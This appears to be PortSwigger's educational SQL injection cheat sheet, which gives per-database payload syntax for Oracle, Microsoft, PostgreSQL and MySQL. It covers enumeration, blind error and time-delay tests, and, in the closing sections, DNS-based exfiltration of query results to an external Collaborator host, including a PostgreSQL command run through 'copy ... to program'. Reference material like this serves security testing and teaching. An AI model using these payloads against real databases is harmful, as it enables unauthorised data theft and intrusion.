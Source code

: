 
[PORTSWIGGER SQL injection cheat sheet] https://portswigger.net/web-security/sql-injection/cheat-sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

**String concatenation**
You can concatenate together multiple strings to make a single string.

**Oracle** 	'foo'||'bar'
-
Microsoft 	'foo'+'bar'
-
PostgreSQL 	'foo'||'bar'
-
MySQL 	'foo' 'bar' [Note the space between the two strings]
-
CONCAT('foo','bar')
-
Substring

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.
Oracle 	SUBSTR('foobar', 4, 2)
Microsoft 	SUBSTRING('foobar', 4, 2)
PostgreSQL 	SUBSTRING('foobar', 4, 2)
MySQL 	SUBSTRING('foobar', 4, 2)
Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input.
Oracle 	--comment
Microsoft 	--comment
/*comment*/
PostgreSQL 	--comment
/*comment*/
MySQL 	#comment
-- comment [Note the space after the double dash]
/*comment*/
Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
Oracle 	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft 	SELECT @@version
PostgreSQL 	SELECT version()
MySQL 	SELECT @@version
Database contents

You can list the tables that exist in the database, and the columns that those tables contain.
Oracle 	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft 	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL 	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL 	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.
Oracle 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL 	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
Oracle 	Does not support batched queries.
Microsoft 	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL 	QUERY-1-HERE; QUERY-2-HERE
MySQL 	QUERY-1-HERE; QUERY-2-HERE
Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
Oracle 	dbms_pipe.receive_message(('a'),10)
Microsoft 	WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT pg_sleep(10)
MySQL 	SELECT sleep(10)
Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.
Oracle 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft 	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL 	SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
Oracle 	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft 	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL 	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL 	The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
Oracle 	SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL 	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL 	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

Want to track your progress and have a more personalized learning experience? (It's free!)
In this topic
SQL injection
UNION attacks
Examining the database
Blind SQL injection
SQL injection cheat sheet
All topics
SQL injection
XSS
CSRF
Clickjacking
DOM-based
CORS
XXE
SSRF
Request smuggling
Command injection
Server-side template injection
Insecure deserialization
Directory traversal
Access control
Authentication
OAuth authentication
Business logic vulnerabilities
Web cache poisoning
HTTP Host header attacks
WebSockets
Information disclosure
File upload vulnerabilities
Try Burp Suite for Free
Find SQL injection vulnerabilities using Burp Suite
